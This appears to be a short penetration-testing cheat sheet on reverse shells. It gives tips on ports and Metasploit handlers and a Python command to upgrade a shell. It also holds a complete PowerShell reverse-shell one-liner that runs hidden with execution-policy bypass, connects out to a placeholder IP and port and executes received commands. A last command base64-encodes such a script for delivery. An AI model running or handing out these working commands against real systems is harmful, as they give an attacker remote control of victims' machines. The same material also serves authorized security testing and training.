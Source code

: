 # Gold Rule #
  * Only use open ports to do your rev shell. Firewalls may prevent other ports
  * If a shell is not stable especially php web shells try using metasploit /multi/handler

# Meterpreter #
"shell" command to drop into a system shell after meterpreter makes a connection

# Upgrade Linux Shell with Python #
 * python -c 'import pty; pty.spawn("/bin/bash")'

# Windows #
1. Powershell
  * powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
2. Convert your pwoershell rev shell to windows base64
   cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0

